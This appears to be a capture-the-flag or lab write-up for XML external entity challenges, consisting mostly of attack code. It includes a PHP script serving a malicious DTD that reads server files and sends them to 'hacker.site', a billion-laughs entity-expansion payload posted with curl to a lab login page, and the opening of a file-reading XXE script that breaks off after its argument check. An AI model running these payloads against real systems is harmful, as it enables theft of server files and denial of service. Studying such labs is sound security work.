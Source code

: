 ```php
if(! empty($_GET['r']))
   $resource = $_GET['r'];

$shell = "http://hacker.site:2108/?p=";
if(! empty ($_GET['s']))
   $shell = $_GET['s'];



header('Content-Type: text/xml');

echo <<<XML

<!ENTITY % resource SYSTEM 'php://filter/read=convert.base64-encode/resource=$resource'>
<!ENTITY % LoadOOBEnt '<!ENTITY &#x25; OOB SYSTEM "$shell%resource;">'>

XML;
```
## XML Entity eXpansion
### Level 1
Standard billion laughs, with a script:
```bash
#!/bin/bash

XML='<?xml version="1.0"?>
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
  <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
  <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
  <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
  <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
  <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<login>
   <username>XXEME &lol9;</username>
   <password>password</password>
</login>'

echo -e "==========================================="
echo -e "\t\tSTART"
echo -e "\nResults: ";
curl -s 'http://1.xee.labs/login.php' --data "$XML" --header "NoDOS:I-Agree"

echo -e "\n\n\t\tEND";
echo -e "===========================================";

```
### Level 2
Same as above, but this time instead of the passphrase we are instructed to check the log file which we need to extract with XXE:
```bash
#!/bin/bash

if [ $# -ne 1 ]; then
        echo "Usage $0 <file_path_to_read>"
        exit
fi
```